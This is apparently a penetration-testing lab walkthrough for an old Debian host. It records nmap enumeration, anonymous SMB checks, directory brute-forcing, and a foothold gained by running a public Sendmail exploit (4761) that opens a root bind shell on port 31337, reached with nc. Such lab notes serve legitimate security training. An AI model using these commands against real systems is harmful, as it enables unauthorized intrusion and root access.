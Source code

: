 ### Enumeration
```
IP=192.168.214.42
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,25,80,139,445,199,60000 -A $IP
```
### Ports
- 22
	- OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
- 80
	- Apache httpd 1.3.33 ((Debian GNU/Linux))
- 25
	- Sendmail 8.13.4/8.13.4/Debian-3sarge3
		- A few exploits
		- 4761
- 139
	- Samba smbd 3.X - 4.X
- 445
	- Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
- 199
	- Linux SNMP multiplexer
- 60000
	- OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
### Foothold
- 25
	- 4761
		- perl 4761.pl 192.168.214.42
		- open ports 31337 up for a bind shell
		- Then we can nc to 31337 and we have root shell
- 445
	- smbclient -N -L //$IP
		- anonymous login successful
		- shares
			- print$
			- IPC$
				- allows anonymous
			- ADMIN$
	- nmap --script smb-vuln* -p135,139,445 $IP
		- Nothing
	- `smbclient -U root //$IP/ADMIN$
		- ifyoudontpwnmeuran00b
			- access denied
- 80
	- Default
		- ![[Pasted image 20240708082728.png]]
		- Binary: `01101001 01100110 01111001 01101111 01110101 01100100 01101111 01101110 01110100 01110000 01110111 01101110 01101101 01100101 01110101 01110010 01100001 01101110 00110000 0011 0000 01100010`
		- Binary to ascii: ifyoudontpwnmeuran00b
	- Directory Brute force
		- dirsearch -u http://$IP
			- nothing
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
### Lessons Learned
- Read the exploits and try to understand what they do
